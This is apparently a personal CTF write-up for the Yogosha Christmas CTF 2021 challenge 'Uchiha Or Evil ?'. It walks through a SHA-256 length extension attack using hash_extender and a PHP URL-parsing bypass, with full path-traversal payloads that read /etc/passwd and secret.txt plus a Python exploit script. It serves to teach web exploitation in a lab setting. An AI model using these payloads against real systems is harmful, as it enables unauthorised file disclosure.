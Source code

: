 ```yaml
---
title: 'Uchiha Or Evil ?'
image: '/assets/APYxowi.png'
created: 2021-12-19
updated: 2021-12-19
tags:
  - 'ctf'
  - 'yogosha'
---
```


# Uchiha Or Evil ?

> Yogosha Christmas CTF 2021

---

```
I heard something important is stored in /secret.txt here: http://3.141.159.106 ; Maybe the akatsuki will help the Uchiha clan ?
```

- From the previous challenge we got a url. Let's visit the page.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/1.png)

- Nothing much on this page. I ran `nikto` & got there is a `robots.txt` file here. We can check the robots.txt page & there's some interesting info. So there is page.Let's go to `read.php`
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/2.png)
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/3.png)
- We got access denied. There is an interesting line in the robots.txt file which is `User-agent: Uchiha`. Let's change our useragent to `Uchiha`. You can use burp or a user agent changer extension. And we have something here.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/4.png)
- Let's view the source. We have 2 things here.
    1. The form is sending post data with some hash concatenated a filename
    2. Some dev notes(comments)

![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/5.png)

- If we send the form we can see some odd thing happening here. Looks like the source code of the `read.php` page is loading. So form the dev comment we can see we have to read the source here in-order to continue from here.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/6.png)
- Let's save the source in a file & read the code.

```php
<?php
if ($_SERVER['HTTP_USER_AGENT']!=="Uchiha"){
 echo "Access Denied. Only Uchiha clan can access this";
}
else{
?>

<?php
include "secret.php";
if(isset($_POST['string'])){
 $arr=explode("|",$_POST['string']) ;
 $filenames=$arr[1];
 $hash=$arr[0];
 if($hash===hash("sha256", $SECRET.$filenames ) && preg_match("/\//",$filenames)===0 ){
  foreach(explode(":",$filenames) as $filename){
   if(in_array($filename,["read.php","index.php","guinjutsu.php"])) {
    $jutsu=file_get_contents($filename);
    echo "Sharingan: ".$jutsu;
  }
  }
 }
 else{
  echo "Verification Failed! You didn't awaken your sharingan!";
 }

}

}
?>
```

- So this program is using the [explode](https://www.w3schools.com/php/func_string_explode.asp) function to split the array into 2 parts. Hash and the file.Then it's checking the hash with a concatenating the filename with a secret & from the array we can see there are 3 files. We cannot lord any other file from here. Then it's just dumping the contents of the files we supplied using the delimiter `:` to split filenames.
- I stuck here for 2 days trying to get the secret. I even tried to bruteforce the secret. But the organizers told me it's not brute forcible. There are some attacks on hash but the hash is `sha256` with is one of the safest (at the time being. Everything is secure untill someone breaks it ;). Cutting short the ans is [Length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack). These are the article and videos that helped me.
  - <https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack>
  - <https://www.youtube.com/watch?v=sMla6_4Z-CQ>
  - <https://www.youtube.com/watch?v=6QQ4kgDWQ9w>
- It's a complicated attack so I left it to the smart people and used this tool [hash_extender](https://github.com/iagox86/hash_extender)
- Here is the syntax `hash_extender --data data --secret len-of-sec --append append --signature hash --format fomrat`. We know the data `read.php`, signature `184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5`, format `sha256` we want the length of the secret. We can bruteforce it like this to generate signatures.

```bash
#!/bin/bash

for i in $(seq 100)
do
    hash_extender --data 'read.php' --secret $i --append ":index.php:guinjutsu.php" --signature 184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5 --format sha256 --out-data-format=html | grep "New" | cut -d ' ' -f3 | sed ':a;N;$!ba;s/\n/|/g' >> hashes
done
```

- This script will generate a file called `hashes` concatenating the hashes. Then we can use burpsuite or python to send the hash & check the result.
- The correct length is `42`. And we can see the result here we have the source of `guinjutsu.php`
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/7.png)
- So we have another source code let's see this one in more details

```php
<?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
    $par=parse_url($url);
    if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
        return True;

    }
    else{
        return False;
    }

}
if (isset($_POST['submit'])){
    if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
        $url=$_POST['api'].$_POST['endpoint'];
        if (check($url)){
            $opts = array(
  'http'=>array(
    'method'=>"GET",
    'follow_location'=>false,
    'header'=>"Accept-language: en\r\n" 
  )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;

        }
    }
}

?>
```

- In short the `check` function is checking for the a url which looks like this `http://uchiha.fuinjutsukeeper.tech:5000/`. If the check passes then it'll concat the endpoint with the url & give the output of whatever we're supplying. So how can we exploit this we have to load something which is on the `http://uchiha.fuinjutsukeeper.tech:5000/` & we can't load anything else or can we...
- It took me an another day (:-\` yah I'm slow). Php is weird we all know.. This part `strpos($par['scheme'],'http')!==false)` only checks for if the `http` part is supplied in the url or not; i.e. `http`, `https`, `phttp`, `fhttp`, `httpf` etc will return true. Nice we can do something nasty here.
- If we send the payload as it is we'll get something like this. Because we have to load files from the machine i.e. `LFI`.
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/8.png)

- We can bypass this by using this paylaod
`submit=1&api=phttp://uchiha.fuinjutsukeeper.tech:5000/&endpoint=../../../../../../../../../../etc/passwd`
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/9.png)
- See we still got the error but we also got the contents of `/etc/passwd`. This is because this part.

```php
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;
```

- This is because `phttp` is not a valid scheme and thus `file_get_contents` thinks it's just part of the filepath while `parse_url` thinks its just a weird scheme unknown to it, but with a valid host and port!. You can read more in this [writeup](https://deltaclock.gitbook.io/ctf-writeups/securinets-ctf-quals-2021-mixed). Always count on smart people.
- And with this payload `submit=1&api=phttp://uchiha.fuinjutsukeeper.tech:5000/&endpoint=../../../../../../../../../../secret.txt` we have the flag
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/10.png)

- Originally when I was solving this I don't know why burp was not showing any output here so I had the answer but wasted a lot of time. Then a friend of mine told me to use python. I was like why I haven't tried that lol (For the 100th time I'm saying count on smart people to avoid struggles like me) :-). Anyways here is the python script if anyone is interested.

```py
#!/usr/bin/python3
from requests import post
from re import findall

url = "http://3.141.159.106/"
headers = {"User-Agent": "Uchiha"}

data = {"submit":'1',"api":"shttp://uchiha.fuinjutsukeeper.tech:5000/","endpoint":"../../../../../../../../../../secret.txt"}

r = post(url + "/guinjutsu.php", headers=headers, data=data)

#print(r.text)

print(findall("Yogosha{.*", r.text)[0])
```

- Same thing we're sending the data as json format this time & everything else is same & I'm [regular expressions](https://en.wikipedia.org/wiki/Regular_expression) to extract the flag part only.
- `Yogosha{.*` means first get `Yogosha{`(flag format) then `.` means any character & finally `*` means any number of times( 0 or > 0) & then we're indexing the first item of the array(list for python)
![](https://gitlab.com/Aviksaikat/yogoshactf-2021/-/raw/main/Uchiha_Or_Evil_%253F_DONE/images/11.png)

#### Thank you for reading this write-up I hope it helped you. I was only able to solve only the first 2 challenges so that's all from me. I hope you learned something. I'll try to add links of other people whole solved the entire thing

- Check out [smaury's](https://github.com/smaury/CTF-writeups/tree/main/2021/yogosha-christmas-challenge) write-up he has solved all of them even the bonus one. Smart guy alert ;-" do check his write-up it's awesome.
